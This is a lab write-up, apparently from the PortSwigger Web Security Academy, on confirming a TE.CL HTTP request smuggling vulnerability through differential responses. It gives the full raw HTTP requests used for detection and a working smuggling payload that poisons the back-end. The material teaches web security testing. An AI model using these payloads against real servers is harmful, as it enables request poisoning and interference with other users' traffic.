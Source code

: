 # HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
# Objective
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.
To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a `404 Not Found` response.

# Solution
## Analysis
###  Determining what the front-end is using
HTTP status code `400 Bad Request` idicates that front-end is using `Transfer-Encoding` header.
```
POSTT / HTTP/1.1
Host: 0a7200c00333d52981e4c03100c10081.web-security-academy.net
Cookie: session=afoPj8z4yk8WRhPlK8Z6go0b9na2zAVy
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

|![](Images/image-21.png)|
|:--:| 
| *Front-end is using TE* |

###  Determining what the back-end is using
`Time out` confirms `TE.CL` vulnerability. Front-end is using `Transfer-Encoding` header. Back-end is using `Content-Length` header.

```
POSTT / HTTP/1.1
Host: 0a7200c00333d52981e4c03100c10081.web-security-academy.net
Cookie: session=afoPj8z4yk8WRhPlK8Z6go0b9na2zAVy
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

|![](Images/image-22.png)|
|:--:| 
| *Front-end is using TE* |
| *Back-end is using CL* |

## Exploitation
First request poisoned the back-end. Part of the second request was added to the end of the previous request - based on the second `Content-Length` header. The `POST / HTTP/1.1` was ignored thanks to `x` parameter and second `Content-Length` value from payload.

```
POSTT / HTTP/1.1
Host: 0a7200c00333d52981e4c03100c10081.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

63
POST /smuggled HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```


|![](Images/image-24.png)|
|:--:| 
| *Payload* |
|![](Images/image-23.png)|
| *Payload with visible signs "\r" and "\n"* |
| *Request was smuggled* |
